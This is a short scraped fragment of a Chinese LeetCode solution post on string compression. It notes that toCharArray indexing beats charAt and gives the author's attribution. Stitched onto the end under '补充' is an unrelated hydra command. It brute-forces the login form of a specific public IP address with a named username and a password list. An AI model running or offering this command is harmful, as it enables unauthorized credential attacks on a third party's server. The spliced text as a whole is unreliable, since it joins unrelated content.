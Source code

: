 另：今天的打卡题太水了没内涵。。嘘🤫

更新：
遍历字符串时上面的代码改成先char[] c = S.toCharArray()再索引效率更高，通过s.charAt(i)方法索引多了方法栈和越界检查的消耗。之前本着能少写一行是一行的yuanze从来没有注意到字符串索引这点，谢谢评论区@突围dalao指正【突然发现这题不水了233

作者：sweetiee
[链接](https://leetcode-cn.com/problems/compress-string-lcci/solution/java-bian-li-1bian-1yan-jiu-ming-bai-by-sweetiee/)
来源：力扣（LeetCode）


补充：
```
hydra -l zengruoyu -P /root/桌面/新文件.txt -s 80 60.205.90.168 http-post-form "/login/login_in.php:username=^USER^&password=^PASS^&submit=login:sorrypassword"
```

